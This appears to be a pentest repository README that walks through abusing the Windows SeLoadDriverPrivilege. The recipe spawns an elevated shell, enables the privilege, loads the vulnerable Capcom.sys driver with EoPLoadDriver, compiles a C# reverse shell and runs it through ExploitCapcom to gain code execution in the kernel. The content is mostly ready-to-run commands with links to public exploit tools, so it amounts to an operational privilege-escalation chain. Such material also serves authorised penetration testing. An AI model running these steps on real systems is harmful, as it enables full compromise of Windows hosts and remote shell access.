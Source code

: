 # SeLoadDriverPriv
Some stuff that can be handy to abuse SeLoadDriverPriv

## Get Priv
In order to get the privilege, we need to spawn a high integrity process
- Option 1: Load PowerShell or cmd.exe as Administrator (no Administrator group membership required!) - Lesson learned from Wh04m1
- Option 2: Use elevate.exe to spawn cmd (https://github.com/PaoJiao/elevate)
```
elevate.exe cmd.exe
```

## Enable Privilege
After spawning the administrative shell the SeLoadDriverPrivilege is visible, but still disabled. Therefore needs to be enabled. Run the script.
```
. .\Enable-SeLoadDriverPrivilege.ps1
Enable-Privilege SeLoadDriverPrivilege
```

## Compile and run EoPLoadDriver
Compile EoPLoadDriver in VisualBasic and load the vulnerable Capcom.sys driver
```
.\EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\pentest\SeLoadDriverPrivilege\Capcom.sys
```

## Generate Reverse Shell
Quickly compile C# reverse shell.

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:exe /out:C:\pentest\SeLoadDriverPrivilege\rev.exe C:\pentest\SeLoadDriverPrivilege\rev.cs
```

## Exploit vulnerable driver
Exploit the vulnerable driver and execute the binary of your choice
```
.\ExploitCapcom.exe C:\pentest\SeLoadDriverPrivilege\rev.exe
```

References

- [https://github.com/PaoJiao/elevate](https://github.com/PaoJiao/elevate)
- [https://github.com/TarlogicSecurity/EoPLoadDriver/](https://github.com/TarlogicSecurity/EoPLoadDriver)
- [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom)
- [https://github.com/FuzzySecurity/Capcom-Rootkit](https://github.com/FuzzySecurity/Capcom-Rootkit)
- [https://www.puckiestyle.nl/c-simple-reverse-shell/](https://www.puckiestyle.nl/c-simple-reverse-shell/)




